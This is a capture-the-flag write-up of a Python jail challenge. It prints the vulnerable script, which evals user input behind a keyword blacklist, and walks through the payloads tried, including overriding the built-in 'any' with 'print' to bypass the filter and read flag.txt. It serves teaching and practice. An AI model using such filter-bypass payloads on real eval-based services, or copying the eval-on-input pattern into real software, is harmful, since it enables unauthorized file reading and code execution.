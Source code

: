 We get a python script, a fake flag, and a server to attack.
```python
#!/usr/bin/python3

banner1 = '''
                   __ooooooooo__
              oOOOOOOOOOOOOOOOOOOOOOo
          oOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo
       oOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo
     oOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo
   oOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo
  oOOOOOOOOOOO*  *OOOOOOOOOOOOOO*  *OOOOOOOOOOOOo
 oOOOOOOOOOOO      OOOOOOOOOOOO      OOOOOOOOOOOOo
 oOOOOOOOOOOOOo  oOOOOOOOOOOOOOOo  oOOOOOOOOOOOOOo
oOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo
oOOOO     OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO     OOOOo
oOOOOOO OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO OOOOOOo
 *OOOOO  OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO  OOOOO*
 *OOOOOO  *OOOOOOOOOOOOOOOOOOOOOOOOOOOOO*  OOOOOO*
  *OOOOOO  *OOOOOOOOOOOOOOOOOOOOOOOOOOO*  OOOOOO*
   *OOOOOOo  *OOOOOOOOOOOOOOOOOOOOOOO*  oOOOOOO*
     *OOOOOOOo  *OOOOOOOOOOOOOOOOO*  oOOOOOOO*
       *OOOOOOOOo  *OOOOOOOOOOO*  oOOOOOOOO*      
          *OOOOOOOOo           oOOOOOOOO*      
              *OOOOOOOOOOOOOOOOOOOOO*          
                   ""ooooooooo""
'''

banner2 = '''
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡟⠁⠀⠉⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡿⠀⠀⠀⠀⠀⠻⣧⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⡇⠀⢀⠀⠀⠀⠀⢻⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⡇⠀⣼⣰⢷⡤⠀⠈⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣇⠀⠉⣿⠈⢻⡀⠀⢸⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠀⠀⢹⡀⠀⢷⡀⠘⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣧⠀⠘⣧⠀⢸⡇⠀⢻⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣤⣤⠶⠾⠿⢷⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⡆⠀⠘⣦⠀⣇⠀⠘⣿⣤⣶⡶⠶⠛⠛⠛⠛⠶⠶⣤⣾⠋⠀⠀⠀⠀⠀⠈⢻⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣄⠀⠘⣦⣿⠀⠀⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⢨⡟⠀⠀⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣦⠀⠛⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⠁⠀⠀⠀⠀⠀⠀⠀⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⠀⠀⠀⠀⢠⣿⠏⠁⠀⢀⡴⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡏⠀⠀⠀⠀⠀⠀⠀⢰⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢠⠶⠛⠉⢀⣄⠀⠀⠀⢀⣿⠃⠀⠀⡴⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢷⠀⠀⠀⠀⠀⠀⣴⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣀⣠⡶⠟⠋⠁⠀⠀⠀⣼⡇⠀⢠⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢷⣄⣀⣀⣠⠿⣿⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠋⠁⠀⠀⠀⠀⣀⣤⣤⣿⠀⠀⣸⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠀⠀⢻⡇⠀⠀⠀⠀⢠⣄⠀⢶⣄⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⣾⠿⠟⠛⠋⠹⢿⠀⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⡀⠀⠀⠀⠀⠘⢷⡄⠙⣧⡀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢀⣴⠟⠋⠁⠀⠀⠀⠀⠘⢸⡀⠀⠿⠀⠀⠀⣠⣤⣤⣄⣄⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣀⡀⠀⠀⠀⢸⡟⠻⣿⣦⡀⠀⠀⠀⠙⢾⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠈⣇⠀⠀⠀⠀⣴⡏⠁⠀⠀⠹⣷⠀⠀⠀⠀⣠⡿⠋⠀⠀⠈⣷⠀⠀⠀⣾⠃⠀⠀⠉⠻⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⣴⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⡆⠀⠀⠀⠘⢷⣄⡀⣀⣠⣿⠀⠀⠀⠀⠻⣧⣄⣀⣠⣴⠿⠁⠀⢠⡟⠀⠀⠀⠀⠀⠙⢿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣾⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡽⣦⡀⣀⠀⠀⠉⠉⠉⠉⠀⢀⣀⣀⡀⠀⠉⠉⠉⠁⠀⠀⠀⣠⡿⠀⠀⠀⠀⠀⠀⠀⠈⢻⣧⡀⠀⠀⠀⠀⠀⠀⠀
⠀⢰⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⠃⠈⢿⣿⣧⣄⠀⠀⠰⣦⣀⣭⡿⣟⣍⣀⣿⠆⠀⠀⡀⣠⣼⣿⠁⠀⠀⠀⠀⠀⠀⠀⢀⣤⣽⣷⣤⣤⠀⠀⠀⠀⠀
⠀⢀⣿⡆⠀⠀⠀⢀⣀⠀⠀⠀⠀⠀⠀⢀⣴⠖⠋⠁⠈⠻⣿⣿⣿⣶⣶⣤⡉⠉⠀⠈⠉⢉⣀⣤⣶⣶⣿⣿⣿⠃⠀⠀⠀⠀⢀⡴⠋⠀⠀⠀⠀⠀⠉⠻⣷⣄⠀⠀⠀
⠀⣼⡏⣿⠀⢀⣤⠽⠖⠒⠒⠲⣤⣤⡾⠋⠀⠀⠀⠀⠀⠈⠈⠙⢿⣿⣿⣿⣿⣿⣾⣷⣿⣿⣿⣿⣿⣿⣿⡿⠃⠀⠀⣀⣤⠶⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢻⣧⠀⠀
⢰⣿⠁⢹⠀⠈⠀⠀⠀⠀⠀⠀⠀⣿⠷⠦⠄⠀⠀⠀⠀⠀⠀⠀⠘⠛⠛⠿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠟⠉⢀⣠⠶⠋⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣧⠀
⣸⡇⠀⠀⠀⠀⠀⠀⠀⢰⡇⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠀⠉⠉⠛⠋⠉⠙⢧⠀⠀⢸⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⡆
⣿⡇⠀⠀⠈⠆⠀⠀⣠⠟⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⢿⠀⠀⠀⠀⠀⠀⠀⠈⠱⣄⣸⡇⠠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣻⡇
⢻⣧⠀⠀⠀⠀⠀⣸⣥⣄⡀⠀⠀⣾⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠂⠀⠀⠀⠀⠀⠀⣿⡇
⢸⣿⣦⠀⠀⠀⠚⠉⠀⠈⠉⠻⣾⣿⡏⢻⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠠⣟⢘⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠟⢳⡄⠀⠀⠀⠀⠀⠀⠀⠀⠐⡟⠀⠀⠀⠀⠀⠀⢀⣿⠁
⢸⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠻⣇⠈⠻⠷⠦⠤⣄⣀⣀⣀⣀⣠⣿⣿⣄⠀⠀⠀⠀⠀⣠⡾⠋⠄⠀⠈⢳⡀⠀⠀⠀⠀⠀⠀⠀⣸⠃⠀⠀⠀⠀⠀⠀⣸⠟⠀
⢸⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣧⣔⠢⠤⠤⠀⠀⠈⠉⠉⠉⢤⠀⠙⠓⠦⠤⣤⣼⠋⠀⠀⠀⠀⠀⠀⠹⣦⠀⠀⠀⠀⠀⢰⠏⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀
⠀⢻⣷⣖⠦⠄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣷⠈⢳⡀⠈⠛⢦⣀⡀⠀⠀⠘⢷⠀⠀⠀⢀⣼⠃⠀⠀⠀⠀⠀⠀⠀⠀⠈⠳⡄⠀⠀⣠⠏⠀⠀⠀⠀⣀⣴⡿⠋⠀⠀⠀
⠀⠀⠙⠻⣦⡀⠈⠛⠆⠀⠀⠀⣠⣤⡤⠀⠿⣤⣀⡙⠢⠀⠀⠈⠙⠃⣠⣤⠾⠓⠛⠛⢿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡴⠞⠁⢀⣠⣤⠖⢛⣿⠉⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠙⢷⣤⡁⠀⣴⠞⠁⠀⠀⠀⠀⠈⠙⠿⣷⣄⣀⣠⠶⠞⠋⠀⠀⠀⠀⠀⠀⢻⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⠶⠞⠋⠁⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠉⠻⣷⡷⠀⠀⠀⠀⠀⠀⠀⠀⠀⢙⣧⡉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠢⣤⣀⣀⠀⠀⠈⠂⢀⣤⠾⠋⠀⠀⠀⠀⠀⣠⡾⠃⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠉⠉⠁⠀⠀⢀⣠⠎⣠⡾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣧⠀⣦⠀⠀⠀⠀⠀⠀⠀⣿⣇⢠⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠤⢐⣯⣶⡾⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣄⠸⣆⠀⠀⠲⣆⠀⠀⢸⣿⣶⣮⣉⡙⠓⠒⠒⠒⠒⠒⠈⠉⠁⠀⠀⠀⠀⠀⢀⣶⣶⡿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠷⠾⠷⣦⣾⠟⠻⠟⠛⠁⠀⠈⠛⠛⢿⣶⣤⣤⣤⣀⣀⠀⠀⠀⠀⠀⠀⠀⣨⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠙⠛⠛⠛⠻⠿⠿⠿⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
'''

blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```
Funny ascii arts !

So we need to bypass the blacklist i guess ?

After some time, i found this payload:
```python
open('flag.txt').read
```

That reads the flag, since i get the `WHAT WAS THAT` output.
Now i just need to redirect the output to my terminal... Maybe by rewriting the script directly ?
That would be a fun one.

I tried a payload, but it only works on local, because the distant machine don't allow to edit main.py...
```python
open('main.py','w')#
```

I'm wondering if i could write my script on another file, and then call it from python.

Same issue, we can't write on another file...



After some research, i tried to replace a function with another one.
```python
exec('any=print')#
```

This payload replace the function "any" with the function "print".

```python
# This code is becoming...
  if any(char in ans for char in blacklist):
# That code !
  if print(char in ans for char in blacklist):
```
And since print doesn't return anything, the condition is always False !

After using this payload... we aren't filtered anymore ! :)
```python
print(open('flag.txt').read())#
<generator object <genexpr> at 0x7f8d8b2bd630>
HTB{3v4l_0r_3vuln??}
```

```python
WHAT WAS THAT?!
```

That, my friend, was another example of why `eval` isn't safe with user input :)


